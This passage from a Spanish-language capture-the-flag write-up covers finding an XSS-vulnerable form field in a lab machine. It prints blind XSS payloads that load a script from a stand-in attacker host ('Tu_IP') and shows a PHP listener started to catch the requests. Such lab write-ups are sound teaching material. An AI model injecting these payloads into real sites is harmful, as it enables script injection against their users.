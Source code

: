 Ahí podemos ver la data cómo se está enviando.

Y cuando se envía, nos manda a la página `/greet`:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura6.png">
</p>

Algo que noté en el código fuente, es que parece que todos los campos, a excepción del campo email, aceptan cualquier texto, pues parece que no se está aplicando alguna sanitización. Además, el campo **name**, es el único que se refleja en la página `/greet`.

Esto nos da una idea de lo que podemos probar primero.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="XSS">Identificando Campos Vulnerables a XSS</h2>

Para el caso de los formularios, podemos probar cuál de estos es vulnerable a **XSS**.

La idea es, probar varios **payloads XSS** que tengan como objetivo cargar un archivo de un servidor que tenga el nombre del campo que estamos probando.

El servidor será nuestro y no importa que dicho archivo exista, pues es simplemente para identificar el campo vulnerable.

Algunos ejemplos pueden ser:
```bash
<script src=http://Tu_IP/nombre_campo></script>

'><script src=http://Tu_IP/nombre_campo></script>

"><script src=http://Tu_IP/nombre_campo></script>
```

Utilizaremos el primero y usaremos un servidor de **PHP**, para ver mejor la petición, aunque también se puede con un servidor de **Python**.

Inicia el servidor de **PHP**:
```bash
php -S 0.0.0.0:80
[Fri Jun 20 14:10:27 2025] PHP 8.4.6 Development Server (http://0.0.0.0:80) started
```
